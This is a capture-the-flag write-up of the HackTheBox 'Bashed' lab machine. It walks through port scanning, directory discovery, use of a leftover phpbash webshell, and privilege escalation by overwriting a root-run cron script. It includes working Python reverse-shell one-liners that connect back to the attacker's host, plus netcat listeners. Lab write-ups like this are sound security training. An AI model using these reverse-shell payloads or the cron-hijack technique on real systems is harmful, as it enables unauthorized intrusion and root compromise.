







HackTheBox - Bashed [no metasploit]
Reconnaissance
export ip=10.10.10.68
Starting with a Nmap TCP scan to discover used ports and services behind, with our usual options:
-sCruns defaults Nmap scripts-sVtries to identify the software versions-oAwill output the results in files prefixed by nmap_tcp and using the formats xml, nmap and gnmap-p-will scan all ports and not the 1000 usual ones
$ sudo nmap -O -sV -sC -oA nmap_tcp -p- $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-31 17:13 CET
Stats: 0:00:51 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 10.10.10.68
Host is up (0.041s latency).
Not shown: 65534 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/31%OT=80%CT=1%CU=36183%PV=Y%DS=2%DC=I%G=Y%TM=5F9D8D
OS:6F%P=x86_64-unknown-linux-gnu)SEQ(SP=102%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS
OS:=8)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M
OS:54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=71
OS:20)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q
OS:=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A
OS:%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y
OS:%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T
OS:=40%CD=S)
Network Distance: 2 hops
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.30 seconds
And let’s start a UDP scan (with the -sU flag) in the background:
sudo nmap -sU -oA nmap_udp_light $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-01 22:25 CET
Nmap scan report for 10.10.10.68
Host is up (0.040s latency).
All 1000 scanned ports on 10.10.10.68 are closed
Nmap done: 1 IP address (1 host up) scanned in 1087.67 seconds
Strategy
Our target is fairly clear here, there’s only one service to attack: the Apache server. Let’s try to see if we can find public exploits affecting version 2.4.18.
Website - port 80
Website
Let’s visit the website at http://10.10.10.68

What’s this phpbash thing? There’s a github link to https://github.com/Arrexel/phpbash, a PHP interactive shell. Just drop the file on the server and execute commands!

Unfortunately, http://10.10.10.68/uploads/phpbash.php is not available:

Dead-ends:
- http://10.10.10.68/config.php => exists but empty
- http://10.10.10.68/uploads => exists but empty
Vulnerability
Quick check on CVEs for Apache 2.4.:
searchsploit apache 2.4
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution | php/remote/29290.c
Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner | php/remote/29316.py
Apache 2.2.4 - 413 Error HTTP Request Method Cross-Site Scripting | unix/remote/30835.sh
Apache 2.4.17 - Denial of Service | windows/dos/39037.php
Apache 2.4.17 < 2.4.38 - 'apache2ctl graceful' 'logrotate' Local Privilege Escalation | linux/local/46676.php
Apache 2.4.23 mod_http2 - Denial of Service | linux/dos/40909.py
Apache 2.4.7 + PHP 7.0.2 - 'openssl_seal()' Uninitialized Memory Code Execution | php/remote/40142.php
Apache 2.4.7 mod_status - Scoreboard Handling Race Condition | linux/dos/34133.txt
Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory Leak | linux/webapps/42745.py
There’s only a local privilege escalation compatible with our apache version, linux/local/46676.php. No good for us.
Recon
Let’s run gobuster and see if there’s any interesting directory:
$ gobuster -u http://10.10.10.68 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
/images (Status: 301)
/js (Status: 301)
/css (Status: 301)
/uploads (Status: 301)
/config.php (Status: 200)
/dev (Status: 301)
/php (Status: 301)
/fonts (Status: 301)
/server-status (Status: 403)
Shell as www-data
The dev directory sounds interesting, let’s check it out:

We’re allowed to list files in that directory and look, there’s our phpbash.php here! Browse to http://10.10.10.6/dev/phpbash.php to have an interactive shell:

user.txt
And huh, this is how we can get access to the first flag, in /home/arrexel:

www-data@bashed:/home/arrexel# sudo -l
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
Using sudo we can run any commands as the user scriptmanager, let’s try:
www-data@bashed:/home/arrexel# sudo su scriptmanager
sudo: no tty present and no askpass program specified
I guess we are going to need a real shell though and not just a webshell :))
Fortunately, the machine has Python installed, we can use that to get a reverse shell on the machine!
www-data@bashed:/home/arrexel# python --version
Python 2.7.12
Upgrade to a Reverse Shell
In the PHP webshell:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
On the host:
$ nc -lvp 4242
Connection from 10.10.10.68:33404
www-data@bashed:/var/www/html/dev$ whoami
whoami
www-data
Note: switching to the scriptmanager user cannot be done with sudo su scriptmanager because it requires the password of the current user that we don’t have. Bypass this limitation by using the -u option to run a command as a specified user:
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/dev$ whoami
whoami
scriptmanager
Privesc
Alright! Let’s explore what this scriptmanager user has access to (apparently, not much):
scriptmanager@bashed:~$ find / -user scriptmanager 2>/dev/null
find / -user scriptmanager 2>/dev/null
/scripts
/scripts/test.py
/home/scriptmanager
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.nano
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout
Check the /scripts directory:
scriptmanager@bashed:/var/www/html/dev$ ls -la /scripts
total 16
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec 4 2017 .
drwxr-xr-x 23 root root 4096 Dec 4 2017 ..
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
-rw-r--r-- 1 root root 12 Nov 3 13:07 test.txt
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
There’s two files:
test.pywhich we own and can modify. It’s a simple script that writes “testing 123!” totest.txttest.txtwhich is created bytest.pyowned by root
The funny thing is that test.txt is owned by root, that shouldn’t happen if the script is executed by scriptmanager right? Which means that test.py is run as root. The other thing to notice is the last modified date of test.txt: it’s updated every minute. So there’s probably a crontab running somewhere, which executes test.py as root. If we modify test.py to spawn a shell, we should get a root shell!
I checked the crontab from scriptmanager just in case, but it’s empty:
scriptmanager@bashed:/scripts$ crontab -l
crontab -l
no crontab for scriptmanager
Modify test.py to run a reverse shell on port 2424 this time:
scriptmanager@bashed:/scripts$ cat << EOF > test.py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.25",2424));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
EOF
Run a listener on your host and wait for the cron tab to trigger. Receive a root shell /o/
[ bamboozled-goose ~ ]# nc -lvp 2424
Connection from 10.10.10.68:37298
root@bashed:/scripts# id
id
uid=0(root) gid=0(root) groups=0(root)

Takeaways
- Why tf would you let “development” webshell files on your server
- Don’t let scripts writable by someone else that root run as root